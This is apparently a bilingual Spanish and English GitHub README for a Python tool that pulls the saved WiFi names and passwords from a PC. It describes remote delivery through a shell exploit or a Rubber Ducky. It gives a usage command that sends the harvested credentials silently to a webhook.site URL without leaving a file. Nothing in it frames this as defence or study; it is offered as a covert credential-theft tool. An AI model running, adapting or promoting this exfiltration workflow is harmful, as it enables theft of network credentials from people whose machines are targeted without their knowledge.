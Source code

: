 # WIFI_Extractor

you might need this requeriments
Tal vez podrias necesitar estos requerimientos

pip install click
pip install elementpath
pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubby ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

silent: Only webhook, no txt file
python3 E_WIFI.py -u https://webhook.site/yoururl -o

type --help for more detailed info

